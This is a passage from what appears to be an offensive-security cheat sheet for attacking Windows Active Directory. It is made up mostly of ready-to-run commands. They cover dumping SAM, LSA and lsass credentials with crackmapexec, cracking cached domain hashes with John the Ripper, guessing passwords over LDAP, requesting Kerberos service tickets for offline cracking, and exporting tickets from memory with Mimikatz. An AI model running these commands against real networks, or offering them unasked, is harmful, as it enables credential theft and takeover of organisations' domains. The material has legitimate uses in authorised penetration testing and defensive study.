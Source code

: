```
crackmapexec smb <ip> -u user -p pass --sam
crackmapexec smb <ip> -u user -p pass --lsa
# ==> can crack with John
# john file.cache -w=/usr/share/wordlists/rockyou.txt --format=mscash2 --external:AutoStatus
crackmapexec smb <ip> -u user -p pass -M lsassy
```

* [https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b](https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

### Password Guessing

Try to create a DirectoryEntry object. If the password is correct, the object creation is successful.

```
New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC01.example.com/DC=example,DC=com", "user", "password")
```

## Kerberos

### Request in a new TGS

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN_ADDRESS'
```

### Display cached tickets

```
# Powershell
klist

# Mimikatz
kerberos::list
```

### Retrieve tickets from memory

```
# If created from powershell
Add-Type -AssemblyName System.IdentityModel
$t = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN_ADDRESS'
$t.GetRequest()

# Mimikatz
kerberos::list /export
```
